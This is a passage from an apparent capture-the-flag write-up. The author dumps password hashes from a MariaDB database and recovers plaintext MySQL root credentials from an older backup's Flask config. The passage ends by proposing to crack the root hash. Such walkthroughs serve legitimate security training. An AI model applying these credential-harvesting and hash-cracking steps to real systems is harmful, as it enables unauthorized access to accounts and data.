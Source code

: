 ### Side note
Check out the db with the creds found in the foothold
```mysql
MariaDB [app]> select username,password from users;
+----------+-------------------------------------------------------------------------------+
| username | password                                                                      |
+----------+-------------------------------------------------------------------------------+
| blue     | $5$rounds=535000$76NyOgtW18b3wIqL$HZqlzNHs1SdzbAb2V6EyAnqYNskA3K.8e1iDesL5vI2 |
| admin    | $5$rounds=535000$mCvaxAvUKjh1ILHQ$OWCsDpqDo3V0lvqWY8/G9koZK4xSAew9oz2t.UskGu2 |
+----------+-------------------------------------------------------------------------------+
```
- This is useless because already have blue's password and admin is the account that I made
## ----------
Remember back to the foothold with downloading the backup zip file -> there was an older backup file that I neglected.
- Grab the older zip and unzip to find the same files as the previous zip, with some different content -> different DB creds
```python
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```
Use these creds to access the 'app' database
```mysql
MariaDB [mysql]> select Host,User,Password from user;
+-----------+---------+-------------------------------------------+
| Host      | User    | Password                                  |
+-----------+---------+-------------------------------------------+
| localhost | root    | *937440AD99CBB4A102402708AA43B689818489C8 |
| note      | root    |                                           |
| 127.0.0.1 | root    |                                           |
| ::1       | root    |                                           | 
| localhost |         |                                           |
| note      |         |                                           |
| localhost | DB_user | *52107B0F316DEF5A57F59273C66227AEA58A2671 |
+-----------+---------+-------------------------------------------+
```
A hash for the root user? I should probably try and crack this...
